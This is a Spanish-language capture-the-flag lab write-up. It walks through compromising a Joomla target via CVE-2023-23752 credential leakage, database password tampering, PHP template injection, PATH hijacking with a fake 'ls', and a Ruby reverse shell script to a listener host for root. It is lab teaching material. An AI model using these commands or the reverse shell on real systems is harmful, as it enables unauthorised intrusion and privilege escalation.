



- Tags: #InformationLeakage #mysql #ruby #joomla #PathHijacking
_____
comenzamos la maquina aplicando el tipico escaneo de nmap.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPort 
```

para después aplicar un escaneo de versiones y servicios sobre lo puertos abiertos.

```shell
nmap -p <Puertos> <IP> -sCV -oN target 
```

______

_____
continuamos con la verificación del servicio web para ver si se encuentra información sobre a que nos enfrentamos.
____

_____
por ahora solo tenemos la pagina de instalación del servicio de apache2, aplicaremos fuzzing y veremos que otra cosa encontramos. 
______

_____
tenemos un directorio llamado wordpress el cual también aplicaremos fuzzing para ver que contiene.
_____

______
veremos todos estos directorios, pero si entramos a la web veremos que nos enfrentamos a un joomla, por lo que nos disponemos a usar **joomscan** para tratar de enumerar su versión y ver si es vulnerable.
________

_____
tenemos una versión por lo que podemos buscar en la web y ver que encontramos.

encontramos la siguiente vulnerabilidad: Joomla! CVE-2023-23752 to Code Execution

en el blog nos indica que si aplicamos un curl a la siguiente dirección:

```shell
curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true
```

podremos encontrar credenciales para una base de datos, osea que es información sensible filtrada.
_________

______
en efecto tenemos credenciales para una base de datos, ahora podremos conectarnos.

```shell
mysql -h 172.17.0.2 -u joomla_user -p
```

_____
tenemos 3 bases de datos pero nos interesa una sola, y de esa listaremos todas sus tablas.
_____

_____
identificamos la tabla de nuestro interés y listamos su contenido.
____

_____

______
tenemos unas credenciales pero primero vamos a verificar los permisos que tenemos sobre esta base de datos.
________

____
**GRANT USAGE ON _._ TO 'joomla_user'@'%'**:

Este privilegio es muy básico y no otorga ningún permiso específico para manipular datos o la estructura de la base de datos. Simplemente permite la conexión al servidor.

**_GRANT ALL PRIVILEGES ON `joomla_db`._ TO 'joomla_user'@'%'**:

Este es un privilegio más significativo. Indica que el usuario `joomla_user` tiene "todos los privilegios" (`ALL PRIVILEGES`) sobre todas las tablas (`.*`) de la base de datos `joomla_db`. Esto incluye permisos como `SELECT`, `INSERT`, `UPDATE`, `DELETE`, `CREATE`, `DROP`, `ALTER`, entre otros.

entonces podemos modificar esa base de datos, lo siguiente que haremos es cambiar la contraseña del usuario firstatack

usando el siguiente comando de mysql.

```shell
Update ffsnq_users SET password = "hash" WHERE id=76;
```

se cambio la contraseña que tenia por root, de esta forma logramos acceder al panel administrativo de joomla.

busque las platillas e inyecte código php, específicamente en la platilla de index.php
______

_____
lo cual me permitirá la ejecución de comandos remotos.
_____

______
por lo que ahora nos mandaremos una reverse shell para así ingresar al sistema.
_____

______
aplicamos el tratamiento de la tty, ahora buscaremos formas potenciales de escalar privilegios.

revisando los directorios existentes nos encontramos con lo siguiente.
_____

_____
es una cadena codificada en base64, si la intentamos decodificar obtendremos lo siguiente.
_____

______
adelanto que la palabra sheena es lo mismo que obtendremos del otro modo que aplicaremos.

se puede transferir un archivo al codificarlo con base64, esto es útil si queremos transferir un archivo de una maquina a otra y no contamos con otros metodos.

por lo que copiaremos la cadena en base64 y la colocaremos dentro de un archivo en nuestra maquina atacante.
______

_____
el cual sera un comprimido codificado con base64, ahora lo que haremos es decodificar el comprimido y nos quedara solo con la extensión .zip
_________

_____
si descomprimimos ese .zip nos dejara un fichero .txt el cual contiene la cadena sheena.

por lo que esa seria creo la forma correcta de hacerlo y nos aseguramos de que la cadena este completa y que no haya sido alterada.

ahora probemos pivotar al usuario gadalupe.
______

_____
ahora veamos como podemos pivotar al usuario ignacio, apliquemos un sudo -l y veamos que nos aparece.
____

______
si ejecutamos el script veremos lo siguiente.
_____

____
parece que el script esta tratando de utilizar el comando ls alojado en una dirección, pero el como podemos ver el mensaje el script no en encuentra el archivo o directorio.

veremos que hay dentro del directorio y veremos si se nos permite crear el archivo ls y aprovecharnos del mismo para escalar al usuario ignacio.
______

_____
tenemos un archivo llamado **hola** el cual podremos modificar.

cambiaremos su nombre a **ls** y agregaremos en su interior el siguiente contenido `/bin/bash` tambien le tenemos que otorgar permisos de ejecución con el comando `chmod +x ls`-

ahora podemos ejecutar el script como ignacio y cuando el script busque por la ruta que tiene especificada esta vez si se encontrara con el archivo ls y podrá hacer uso del mismo y al ejecutarse automáticamente seremos el usuario ignacio.
_______

_____
ahora veremos como escalar a root, si aplicamos el comando sudo -l veremos lo siguiente.
______

_____
podemos ejecutar como root y sin proporcionar contraseña ruby ademas de un script con nombre saludo.

podemos modificar el script por lo que agregaremos una reverse shell en ruby para que nos otorgue el root.

```ruby
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 443, '192.168.1.103'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```
____

______
de esa forma obtenemos el root.